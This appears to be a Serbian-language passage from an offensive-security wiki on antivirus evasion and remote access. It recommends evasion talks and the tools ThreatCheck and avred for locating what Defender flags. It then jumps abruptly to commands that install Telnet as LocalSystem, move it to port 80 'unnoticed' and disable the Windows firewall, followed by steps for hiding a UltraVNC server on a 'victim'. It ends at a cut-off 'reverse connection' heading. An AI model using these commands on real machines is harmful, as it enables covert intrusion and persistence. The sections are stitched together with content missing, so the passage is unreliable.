 Evasion je veoma komplikovana tema, ponekad morate uzeti u obzir mnoge različite izvore telemetrije u samo jednom sistemu, tako da je prilično nemoguće ostati potpuno neotkriven u zrelim okruženjima.

Svako okruženje sa kojim se suočite imaće svoje prednosti i mane.

Visoko preporučujem da pogledate ovaj razgovor od [@ATTL4S](https://twitter.com/DaniLJ94), da biste dobili uvid u napredne tehnike Evasion-a.

{% embed url="https://vimeo.com/502507556?embedded=true&owner=32913914&source=vimeo_logo" %}

Ovo je takođe još jedan odličan razgovor od [@mariuszbit](https://twitter.com/mariuszbit) o Evasion-u u Dubini.

{% embed url="https://www.youtube.com/watch?v=IbA7Ung39o4" %}

## **Stare Tehnike**

### **Proverite koje delove Defender pronalazi kao zlonamerne**

Možete koristiti [**ThreatCheck**](https://github.com/rasta-mouse/ThreatCheck) koji će **ukloniti delove binarnog fajla** dok ne **otkrije koji deo Defender** pronalazi kao zlonameran i podeliti vam to.\
Još jedan alat koji radi **isto je** [**avred**](https://github.com/dobin/avred) sa otvorenom web ponudom usluge na [**https://avred.r00ted.ch/**](https://avred.r00ted.ch/)

```bash
pkgmgr /iu:"TelnetServer" /quiet
```

Pokreni ga kada se sistem pokrene i pokreni ga sada:

```bash
sc config TlntSVR start= auto obj= localsystem
```

**Promenite telnet port** (neprimetno) i onemogućite firewall:

```
tlntadmn config port=80
netsh advfirewall set allprofiles state off
```

### UltraVNC

Preuzmite ga sa: [http://www.uvnc.com/downloads/ultravnc.html](http://www.uvnc.com/downloads/ultravnc.html) (želite binarne preuzimanja, ne instalaciju)

**NA HOSTU**: Izvršite _**winvnc.exe**_ i konfigurišite server:

* Omogućite opciju _Disable TrayIcon_
* Postavite lozinku u _VNC Password_
* Postavite lozinku u _View-Only Password_

Zatim, premestite binarni fajl _**winvnc.exe**_ i **novokreirani** fajl _**UltraVNC.ini**_ unutar **žrtve**

#### **Obrnuta veza**
